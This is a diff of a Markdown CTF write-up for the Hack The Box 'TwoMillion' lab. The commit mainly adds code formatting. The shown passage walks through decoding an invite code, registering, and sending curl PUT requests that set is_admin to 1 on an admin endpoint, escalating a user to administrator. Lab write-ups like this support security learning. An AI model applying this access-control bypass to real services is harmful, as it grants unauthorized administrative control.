

Before and after one commit to MedhatHassan/HTB-labs, a Markdown page: machines/TwoMillion/Findings.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/machines/TwoMillion/Findings.md
+++ b/machines/TwoMillion/Findings.md
@@ -66,32 +66,35 @@ Upgrade-Insecure-Requests: 1
 
 code=&username=user&email=user%40htb.com&password=user&password_confirmation=user
 ```
-
+### Curl
+```
 curl -sX POST http://2million.htb/api/v1/invite/how/to/generate
 {"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
+```
 
 you got a ROT13-decoded message says : In order to generate the invite code, make a POST request to /api/v1/invite/generate
-
+```
 curl -sX POST http://2million.htb/api/v1/invite/generate
 {"0":200,"success":1,"data":{"code":"N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc=","format":"encoded"}}
+```
 
-it is base64 decoded invitation code  => echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d => 7VPT4-I4FM4-N3Q3K-2KI9G
+it is base64 decoded invitation code  => `echo N1ZQVDQtSTRGTTQtTjNRM0stMktJOUc= | base64 -d` => `7VPT4-I4FM4-N3Q3K-2KI9G`
 
 Use the invitation code to register an account
 
-code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user
+`code=7VPT4-I4FM4-N3Q3K-2KI9G&username=user&email=user%40htb.com&password=user&password_confirmation=user`
 
-GET the PHPSESSID from your browser => 0u8rjqr7pid9s7m2eaoavcjecu
+GET the `PHPSESSID` from your browser => `0u8rjqr7pid9s7m2eaoavcjecu`
+```
+curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
+```
 
-curl -sv 2million.htb/api --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
-
-curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
 
 * Connection #0 to host 2million.htb left intact
 {
   "/api/v1": "Version 1 of the API"
 }
-
+```
 curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" | jq
 
 {
@@ -125,23 +128,27 @@ curl http://2million.htb/api/v1 --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu"
     }
   }
 }
+```
 
 You find all V1 data
 
+```
 curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" | jq
 
 {
   "status": "danger",
   "message": "Missing parameter: email"
 }
-
+```
+```
 curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com"}' | jq
 
 {
   "status": "danger",
   "message": "Missing parameter: is_admin"
 }
-
+```
+```
 curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=0u8rjqr7pid9s7m2eaoavcjecu" --header "Content-Type: application/json" --data '{"email":"user@htb.com", "is_admin": '1'}' | jq
 
 {
@@ -149,4 +156,5 @@ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID
   "username": "user",
   "is_admin": 1
 }
+```
 
````
Also changed, not shown: other parts of machines/TwoMillion/Findings.md (+8 -4 lines).
